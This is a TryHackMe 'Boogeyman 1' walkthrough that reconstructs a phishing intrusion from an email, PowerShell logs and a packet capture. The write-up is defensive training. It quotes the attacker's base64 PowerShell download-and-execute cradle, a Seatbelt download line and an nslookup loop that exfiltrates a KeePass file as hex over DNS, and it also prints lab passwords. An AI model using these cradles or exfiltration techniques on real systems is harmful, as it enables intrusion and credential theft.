










<div align="center">


</div>

## 📖 Room Overview

Boogeyman 1 is a SOC Level 1 capstone challenge on TryHackMe that drops you straight into an incident. A finance employee named Julianne Westcott, working for Quick Logistics LLC, received what looked like a routine follow-up email about an unpaid invoice from a business partner, B Packaging Inc. The attachment was anything but routine, and opening it handed her workstation over to a threat group calling itself the Boogeyman.

My job in this room was to reconstruct the whole intrusion from three artifacts left behind: a copy of the phishing email (`dump.eml`), the PowerShell ScriptBlock logs from Julianne's machine (`powershell.json`), and a packet capture from the same host (`capture.pcapng`). I worked through it in three phases that mirror how a real investigation flows: email analysis to understand the delivery, endpoint analysis to understand what ran on the host, and network analysis to confirm the endpoint story and recover what was actually stolen.

Everything lives in `/home/ubuntu/Desktop/artefacts`, and the toolkit is what you would expect on an analyst box: Thunderbird, `lnkparse`, `jq`, and `tshark`/Wireshark. What makes this room satisfying is that each phase feeds the next. The email gives you the payload, the payload points you at the PowerShell logs, and the logs tell you exactly which packets to go dig out of the capture.

# 🧭 Task 1: Introduction

## Concept

This task is pure setup. It lays out the scenario, tells you where the artifacts are, and lists the tools already installed on the VM. There is nothing to answer here beyond starting the machines, but it is worth reading carefully because it hands you the three files you will be living in for the rest of the room and reminds you that `powershell.json` is just the original `.evtx` log converted to JSON with the `evtx2json` tool.

Once the lab machine is up and the artifacts are sitting in `~/Desktop/artefacts`, you are ready to start hunting.

**Let's hunt that boogeyman!**

> No answer needed.

# 📧 Task 2: Email Analysis

## Concept

Every phishing investigation starts with the message itself. The raw `.eml` file carries the full headers, and those headers are where the truth lives: who really sent it, who it targeted, and which infrastructure pushed it out. Sender display names lie, but headers like `DKIM-Signature` and `List-Unsubscribe` quietly reveal the third-party service the attacker abused to get the mail delivered.

The second half of this task is about the weapon. The email carries a password-protected zip, and the password is helpfully sitting in the email body. Inside the zip is not an invoice at all, it is a Windows shortcut (`.lnk`). Shortcuts are a classic delivery trick because they can silently launch PowerShell while looking like a harmless document. Running `lnkparse` against the shortcut cracks it open and exposes the command line it was built to execute, which is a base64 blob that becomes the starting thread for the entire endpoint investigation.

## Commands

```bash
cd ~/Desktop/artefacts

# Read the raw email and its headers (or just double-click dump.eml to open it in Thunderbird)
cat dump.eml | less

# The attachment is a base64 blob at the bottom of the eml. Rebuild it, then extract:
unzip Invoice.zip          # when prompted, the password is Invoice2023!

# Parse the malicious shortcut to reveal the hidden PowerShell payload
lnkparse Invoice_20230103.lnk
```

I opened the message in Thunderbird to read it comfortably, which is where the sender, the victim, and the archive password all show up in plain sight.



Extracting the zip with the supplied password inflates the real payload, a `.lnk` file masquerading as an invoice.



Then `lnkparse` exposes the command line arguments baked into the shortcut, including the base64 payload.



**What is the email address used to send the phishing email?**

agriffin@bpakcaging.xyz

> This is the `From` address in the email header. The display name reads "Arthur Griffin, Collections Officer," but the actual address sits on the lookalike domain `bpakcaging.xyz`, a typo-flavored spoof of a real packaging company.

**What is the email address of the victim?**

julianne.westcott@hotmail.com

> Taken straight from the `To` header. Julianne is the finance employee the Boogeyman group singled out, which fits the room's note that the attack was aimed at the finance team.

**What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?**

elasticemail

> Attackers rarely send bulk phishing straight from their own mail server because it lands in spam. The `DKIM-Signature` and `List-Unsubscribe` headers both reference Elastic Email, the relay service they piggybacked on to make the message look legitimate and get it delivered.

**What is the name of the file inside the encrypted attachment?**

Invoice_20230103.lnk

> After unzipping `Invoice.zip` with the password, the archive inflates a single file. The `.lnk` extension is the giveaway: it is a Windows shortcut, not the invoice document the victim was expecting.

**What is the password of the encrypted attachment?**

Invoice2023!

> The attacker handed this over in the email body: "You may use this code to view the encrypted file." Password-protecting the zip is a deliberate move to slip the payload past automated mail scanners.

**Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?**

aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

> `lnkparse` prints a "Command Line Arguments" field showing what the shortcut was set to run. It is a base64, UTF-16LE encoded PowerShell string. Decoding it reveals `iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')`, a classic download-and-execute cradle that pulls the next stage from the attacker's server.

# 🔍 Task 3: Endpoint Security

## Concept

The decoded payload from Task 2 is the first domino. From here the story lives in the PowerShell ScriptBlock logs, which recorded every command the attacker's session executed on Julianne's machine. The trick is that these logs are noisy and out of order, so I used `jq` to sort them by timestamp and strip out just the `ScriptBlockText` field, then deduplicated the results so I could read the attacker's activity as a clean timeline.

Reading that timeline tells the full endpoint story. The attacker established a command-and-control beacon, pulled down tooling with `Invoke-WebRequest` (`iwr`), ran a host enumeration binary, then used a renamed SQLite utility to read a local database file. Finally they located a sensitive KeePass database and staged it for exfiltration by converting it to hex and pushing it out in chunks. Each of those steps maps directly to one of the questions below.

The `jq` recipes I leaned on:

| Goal | Command |
|---|---|
| Parse all JSON into readable output | `cat powershell.json \| jq` |
| Print one field across all logs | `cat powershell.json \| jq '{ScriptBlockText}'` |
| Sort every log by its timestamp | `cat powershell.json \| jq -s -c 'sort_by(.Timestamp) \| .[]'` |
| Sort and pull specific fields | `cat powershell.json \| jq -s -c 'sort_by(.Timestamp) \| .[] \| {ScriptBlockText}'` |

## Commands

```bash
# Build a clean, de-duplicated timeline of everything the attacker ran
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' | jq '{ScriptBlockText}' | sort | uniq

# Zoom in on the database access and directory-walking activity
cat powershell.json | jq '{ScriptBlockText}' | sort | uniq | grep -e sq3.exe -e cd
```

Sorting and de-duplicating the ScriptBlockText gives the whole picture in one screen: the C2 beacon loop, the tool downloads, the sqlite read, and the nslookup exfil.



Scrolling through, the download cradle and the `iwr` calls that fetch the tooling stand out clearly.



The enumeration binary is easy to spot once you know its real name.



Filtering for `sq3.exe` isolates the exact database file the attacker read.



And the tail end of the timeline shows the KeePass file being located and the hex-based nslookup exfiltration loop.



**What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)**

cdn.bpakcaging.xyz,files.bpakcaging.xyz

> Two subdomains of `bpakcaging.xyz` show up in the logs. `files.bpakcaging.xyz` is where the payload and tools were downloaded from (`iwr http://files.bpakcaging.xyz/...`), and `cdn.bpakcaging.xyz:8080` is the C2 endpoint the beacon loop talks to. Listed alphabetically, `cdn` comes before `files`.

**What is the name of the enumeration tool downloaded by the attacker?**

seatbelt

> One log line runs `iex(new-object net.webclient).downloadstring('https://github.com/.../Invoke-Seatbelt.ps1')` and later executes `Seatbelt.exe`. Seatbelt is a well-known offensive security tool that harvests host and security configuration details for situational awareness.

**What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.**

C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite

> `sq3.exe` is a renamed SQLite3 client. The log shows it running a `SELECT * FROM Note` query against `plum.sqlite`, the local database behind Microsoft Sticky Notes. The path uses doubled backslashes because that is how it appears in the JSON logs.

**What is the software that uses the file in Q3?**

Microsoft Sticky Notes

> The path segment `Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe` and the `plum.sqlite` filename both belong to Microsoft Sticky Notes. People often jot passwords and card numbers into sticky notes, which is exactly why the attacker went looking there.

**What is the name of the exfiltrated file?**

protected_data.kdbx

> Toward the end of the timeline the attacker reads `C:\Users\j.westcott\Documents\protected_data.kdbx` with `[System.IO.File]::ReadAllBytes($file)` and stages it for exfiltration. The `.kdbx` extension marks it as a password database.

**What type of file uses the .kdbx file extension?**

keepass

> A quick search on the `.kdbx` extension confirms it is the database format used by KeePass, the open-source password manager. That means the attacker walked away with a vault of the victim's stored credentials.

**What is the encoding used during the exfiltration attempt of the sensitive file?**

hex

> The exfil script converts the file bytes into a hex string and then splits it into 50-character chunks (`$hex -split '(\S{50})'`) before sending each piece out. Hex keeps the binary data DNS-safe as it leaves the network.

**What is the tool used for exfiltration?**

nslookup

> The exfil loop calls `nslookup -q=A "$line.bpakcaging.xyz" $destination`, smuggling each hex chunk out as a DNS query to the attacker's server. `nslookup` is a built-in Windows tool, so it does not trip antivirus and blends in as ordinary name resolution.

# 🌐 Task 4: Network Traffic Analysis

## Concept

The PowerShell logs told me what the attacker did, and the packet capture lets me prove it and recover what was taken. This phase is about confirming the C2 behavior on the wire and then reversing the exfiltration to get the stolen file back.

On the C2 side, following the HTTP streams in the capture shows the server banner (a plain Python HTTP server) and the pattern of the beacon: the client fetches tasking, and command output is sent back with HTTP `POST`. One of those POST streams also carries the KeePass master password in a decimal-ASCII encoded blob, which decodes into the password string.

On the exfiltration side, the stolen `protected_data.kdbx` never left as a single file, it left as a stream of hex-encoded DNS queries. So I used `tshark` to pull every DNS query destined for the attacker's IP, stripped them down to just the hex chunks, concatenated them, and reversed the hex back into binary. That rebuilds the original `.kdbx`, which I then opened in KeePass using the recovered password to read the final prize: a credit card number.

## Commands

```bash
# Reconstruct the exfiltrated KeePass database from the hex-encoded DNS queries
tshark -r capture.pcapng -Y "ip.dst==167.71.211.113 and dns" -T fields -e dns.qry.name \
| grep -E '[A-F0-9]+.bpakcaging.xyz$' \
| cut -d'.' -f1 \
| tr -d '\n' \
| xxd -p -r > protected_data.kdbx

# Then open protected_data.kdbx in KeePass using the recovered master password:
#   %p9^3!lL^Mz47E2GaT^y
```

Breaking that pipeline down: `tshark` reads only the DNS queries heading to the C2 IP, `grep` keeps just the hex-and-domain queries, `cut` slices off the `.bpakcaging.xyz` suffix to leave the raw hex, `tr` glues all the chunks into one continuous string, and `xxd -p -r` converts that hex back into the raw bytes of the file.

Following the C2 HTTP stream in Wireshark shows the POST requests and the decimal-ASCII password blob sent back to `cdn.bpakcaging.xyz:8080`.



Reassembling the DNS queries with tshark rebuilds the hex that becomes the stolen KeePass file.



**What software is used by the attacker to host its presumed file/payload server?**

python

> The HTTP response headers in the capture include a `Server` banner identifying a Python `SimpleHTTPServer` / `http.server`. Spinning up a quick Python web server is a common, low-effort way for attackers to host payloads and tools.

**What HTTP method is used by the C2 for the output of the commands executed by the attacker?**

POST

> Following the C2 stream shows the beacon fetching tasking and then returning the results of each command back to `cdn.bpakcaging.xyz:8080` using HTTP `POST`, with the output carried in the request body.

**What is the protocol used during the exfiltration activity?**

dns

> Instead of uploading the file over HTTP, the attacker tunneled it out as a series of DNS `A` record lookups (the `nslookup` loop from Task 3). DNS is often allowed straight out of a network with little inspection, which makes it a favorite covert exfiltration channel.

**What is the password of the exfiltrated file?**

%p9^3!lL^Mz47E2GaT^y

> The C2 POST stream contains the KeePass master password encoded as decimal ASCII values. Converting each number back to its character yields this password, which unlocks the reconstructed `protected_data.kdbx`.

**What is the credit card number stored inside the exfiltrated file?**

4024007128269551

> After rebuilding `protected_data.kdbx` from the DNS hex and opening it in KeePass with the recovered master password, the vault reveals the stored entries, including this credit card number. This is the Boogeyman's actual objective, and recovering it closes out the investigation.

## 🧰 Tools Used

| Tool | Purpose |
|---|---|
| Thunderbird | Opening and reading the raw phishing email and its headers |
| lnkparse | Extracting the hidden PowerShell command line from the malicious .lnk shortcut |
| base64 | Decoding the UTF-16LE payload pulled from the shortcut |
| jq | Parsing, sorting, and filtering the JSON PowerShell ScriptBlock logs |
| grep / cut / tr | Slicing and reshaping log and packet output on the command line |
| tshark | Extracting DNS queries from the packet capture to reconstruct the exfiltrated file |
| xxd | Converting the hex-encoded DNS data back into the original binary file |
| Wireshark | Following the C2 HTTP streams to recover the master password |
| KeePass | Opening the recovered .kdbx database to read the stolen credit card |

## 👨‍💻 Author

**Sanjish K C**
CompTIA Security+ | MS Cybersecurity Candidate at Webster University | Network Analysis | Nmap | Wireshark | Linux | Former Computer Science Instructor Transitioning into Cybersecurity
